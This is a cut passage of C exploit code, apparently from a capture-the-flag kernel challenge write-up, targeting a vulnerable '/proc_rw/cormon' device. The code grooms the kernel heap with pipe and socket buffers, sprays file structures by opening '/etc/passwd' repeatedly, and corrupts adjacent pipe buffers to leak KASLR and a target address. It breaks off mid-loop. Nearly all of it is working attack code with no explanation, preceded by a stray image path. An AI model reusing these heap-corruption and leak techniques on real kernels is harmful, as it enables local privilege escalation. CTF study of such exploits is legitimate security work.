 ```c
    char *T = malloc(0x10000);
    memset(T,0,0x10000);
    memset(T,'i',0x1000);
    memcpy(T,p64(0xdeadbeef),8);
    fd = open("/proc_rw/cormon",2);

    libxInitX();
    int fds[0x400] = {};
    for(int i = 0 ; i < 0x180 ;i++)
        fds[i] = open("/etc/passwd",0);
    

    int fengshui[2];
    pipe(fengshui);
    int shuifeng[2];
    pipe(shuifeng);
    pipeBufferResize(fengshui[0],0x40); 
    pipeBufferResize(shuifeng[0],0x40); 
    // 0x40*0x28 = 0xa00 
    
    int victim[NR_PIPE][2];
    for(int i = 0 ; i < NR_PIPE;i++)
        pipe(victim[i]);
    for(int i = 0 ; i < 0x1c; i++)
        for(int j = 0 ; j < 0x6;j++)
            write(sk_fd[i][1],T,0x1000-0x140);
    for(int i = 0x1c ; i < 0x20; i++)
        write(sk_fd[i][1],T,0x1000-0x140);
    // Poke 4 holes
    for(int i = 0x1c ; i < 0x20; i++)
        read(sk_fd[i][0],T+0x8000,0x1000-0x140);
    // Fill the holes
    for(int i = 0 ; i < NR_PIPE; i++)
        pipeBufferResize(victim[i][0],0x40);
    
    // Fengshui
    for(int i = 0 ; i < 0x40; i++)
        write(fengshui[1],T,0x1000); // Lift the end

    
    int ct =  0x180;
    for(int z =0 ;z <NR_PIPE; z++)
    {
        
        memcpy(T,p64(0xcafebabe000+z),8);
        write(victim[z][1],T,0xc28);
        for(int i = 0x20 ; i < 0x40 ;i++)
            fds[ct++] = open("/etc/passwd",0);
    }
    
    // debug();
    read(sk_fd[0x1c-1][0],T+0x8000,0x1000-0x140);
    write(fd,T+0x6000,0x1000);
    // debug();
    size_t TARGET_ADDR = 0;
    size_t KASLR = 0;
    size_t idx  = -1;
    char buf[0x100]={};
    for(int i = 0 ; i < NR_PIPE ;i++)
    {
        memset(buf,0,0x100);
        read(victim[i][0],buf,0x100);
        size_t permission = *(size_t *)(buf+0x40);
```